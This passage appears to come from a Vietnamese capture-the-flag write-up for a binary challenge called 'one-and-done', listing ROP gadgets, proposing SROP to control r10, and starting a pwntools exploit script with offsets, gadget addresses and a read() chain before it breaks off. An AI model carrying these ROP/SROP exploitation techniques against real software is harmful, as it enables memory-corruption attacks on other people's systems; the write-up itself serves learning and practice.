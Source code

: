 ```cs
0x0000000000401a3f: jns 0x1a63; movsxd rdx, r8d; xor r10d, r10d; mov rax, r9; mov rsi, rbx; syscall;
0x0000000000401d8d: mov edx, edi; mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401d73: mov edx, edi; mov r10d, 8; lea rsi, [rip + 0x12be]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401579: mov esi, esp; movsxd rdi, r12d; mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401d8f: mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401d75: mov r10d, 8; lea rsi, [rip + 0x12be]; xor edi, edi; mov eax, 0xe; syscall;
0x000000000040157e: mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401da9: mov r10d, 8; mov eax, 0xe; xor edx, edx; mov edi, 2; syscall;
0x000000000040210d: mov rdx, r10; mov rsi, r9; mov rdi, r8; call 0x1fee; add rsp, 0x18; ret;
0x0000000000401d8c: mov rdx, rdi; mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401d72: mov rdx, rdi; mov r10d, 8; lea rsi, [rip + 0x12be]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401578: mov rsi, rsp; movsxd rdi, r12d; mov r10d, 8; mov eax, 0xd; syscall;
0x000000000040157b: movsxd rdi, r12d; mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401e35: movsxd rdx, edx; xor r10d, r10d; mov rax, rbx; mov rsi, rbp; syscall;
0x0000000000401a41: movsxd rdx, r8d; xor r10d, r10d; mov rax, r9; mov rsi, rbx; syscall;
0x000000000040226f: sub byte ptr [r10 + rcx + 0x31], r14b; sal byte ptr [rcx], cl; test byte ptr [rax - 0x77], -0x11; call qword ptr [rbp + 0x48];
0x0000000000401576: xor edx, edx; mov rsi, rsp; movsxd rdi, r12d; mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401a44: xor r10d, r10d; mov rax, r9; mov rsi, rbx; syscall;
0x0000000000401e38: xor r10d, r10d; mov rax, rbx; mov rsi, rbp; syscall;
0x0000000000401e49: xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401e45: clc; fidiv dword ptr [rbp - 0x3c]; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x000000000040157d: cld; mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401d8e: cli; mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401d74: cli; mov r10d, 8; lea rsi, [rip + 0x12be]; xor edi, edi; mov eax, 0xe; syscall;
```

- vì vậy ta sẽ dùng ```SROP``` để có thể control được ```r10``` : 

script : 

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./one-and-done',checksec=False)

p = process()

offset = 0x120
pop_rdi = 0x0000000000401793
pop_rsi = 0x0000000000401713
pop_rdx = 0x0000000000401f31
syscall_ret = 0x0000000000401ab2
pop_rax = 0x000000000040100b
bss = 0x405ea0
gets_addr = 0x0000000000401230


#       unsigned int fd, char *buf, size_t count
def read(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret) + p64(exe.sym.main)
```